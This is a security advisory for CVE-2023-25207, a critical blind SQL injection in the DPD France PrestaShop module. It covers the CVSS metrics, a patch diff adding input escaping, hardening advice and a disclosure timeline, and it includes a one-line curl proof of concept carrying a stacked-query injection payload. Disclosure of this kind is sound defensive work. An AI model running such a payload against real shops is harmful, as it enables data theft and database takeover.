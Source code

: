 ```yaml
---
layout: post
title: "[CVE-2023-25207] Multiple improper neutralizations of an SQL parameters in DPD France module for PrestaShop"
categories: modules
author:
- 202-ecommerce.com
- TouchWeb.fr
- Friends-Of-Presta.org
meta: "CVE,PrestaShop,dpdfrance"
severity: "critical (9.8)"
---
```


In the module "DPD France" (dpdfrance) for PrestaShop, an remote attaker can perform a blind SQL injection in affected versions. Release 6.1.3 fixed vulnerabilities.

## Summary

* **CVE ID**: [CVE-2023-25207](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-25207)
* **Published at**: 2023-03-09
* **Advisory source**: Friends-of-Presta.org
* **Vendor**: PrestaShop
* **Product**: dpdfrance
* **Impacted release**: < 6.1.3
* **Product author**: DPD France SAS
* **Weakness**: [CWE-89](https://cwe.mitre.org/data/definitions/89.html)
* **Severity**: critical (9.8)

## Description

In dpdfrance module for PrestaShop up to 6.1.3, multiple sensitives SQL calls in method `dpdfrance::ajaxSetAddressOrder()` can be executed with a trivial http call and exploited to forge a bind SQL injection.

## CVSS base metrics

* **Attack vector**: network
* **Attack complexity**: low
* **Privilege required**: none
* **User interaction**: none
* **Scope**: unchanged
* **Confidentiality**: high
* **Integrity**: high
* **Availability**: high

**Vector string**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

## Possible malicious usage

* Technical and personal data leaks
* Obtain admin access
* Remove all data of the linked PrestaShop
* Display sensitives tables to front-office to unlock potential admin's ajax scripts of modules protected by token on the ecosystem

## Proof of concept

```bash
curl -v -X POST -d 'action_ajax_dpdfrance=setAddressOrder&order=1%27;select(0x73656C65637420736C656570283432293B)INTO@a;prepare`b`from@a;execute`b`;--' 'https://domain.tld/modules/dpdfrance/ajax.php?dpdfrance_token=EXPOSED_TOKEN_ON_FRONT_OFFICE'
```

## Patch

```diff
--- a/dpdfrance/dpdfrance.php
+++ b/dpdfrance/dpdfrance.php
@@ -977,7 +977,7 @@ class DPDFrance extends CarrierModule
     public function ajaxSetAddressOrder($param)
     {
         $dpdOrder = $this->getDpdOrder($param['order']);
-        $sql      = "UPDATE " . _DB_PREFIX_ . "dpdfrance_order SET override_return_street = '" . (string)$param['street'] . "', override_return_zip = '" . (string)$param['zip'] . "', override_return_city = '" . (string)$param['city'] . "', override_return_phone = '" . (string)$param['phone'] . "' WHERE id_order_dpd = '" . $param['order'] . "';";
+        $sql      = "UPDATE " . _DB_PREFIX_ . "dpdfrance_order SET override_return_street = '" . pSQL($param['street']) . "', override_return_zip = '" . pSQL($param['zip']) . "', override_return_city = '" . pSQL($param['city']) . "', override_return_phone = '" . pSQL($param['phone']) . "' WHERE id_order_dpd = '" . pSQL($param['order']) . "';";
         db::getInstance()->execute($sql);
         $response = ['update' => true];
         $response = json_encode($response);
```

## Other recommandations

* It’s recommended to upgrade the module beyond 6.1.3.
* For PrestaShop 1.6, you need to apply the patch manually.
* Upgrade PrestaShop beyong 1.7.8.8 (and 8.0.1) to disable multiquery executions (separated by ";").
* Change the default database prefix `ps_` by a new longer arbitrary prefix. Nethertheless, be warned that this is useless against blackhat with DBA senior skilled because of a design vulnerability in DBMS
* Activate OWASP 942's rules on your WAF (Web application firewall), be warned that you will probably break your backoffice and you will need to pre-configure some bypasses against these set of rules.

## Timeline

| Date | Action |
|--|--|
| 2022-12-05 | Issue discovered during a code review by 202 Ecommerce and TouchWeb |
| 2022-12-05 | Contact the author |
| 2022-12-20 | Never recieved a response from the author |
| 2022-12-20 | Contact PrestaShop Addons Team |
| 2023-01-27 | Fix published on addons PrestaShop marketplace for PrestaShop 1.7+ only |
| 2023-01-28 | Request a CVE ID |
| 2023-03-08 | Publication of this security advisory |

## Links

* [PrestaShop addons product page](https://addons.prestashop.com/en/shipping-carriers/19414-dpd-france-delivery.html)
* [DPD France module page](https://www.dpd.com/fr/fr/faq/prestashop/)
* [National Vulnerability Database](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-25207)
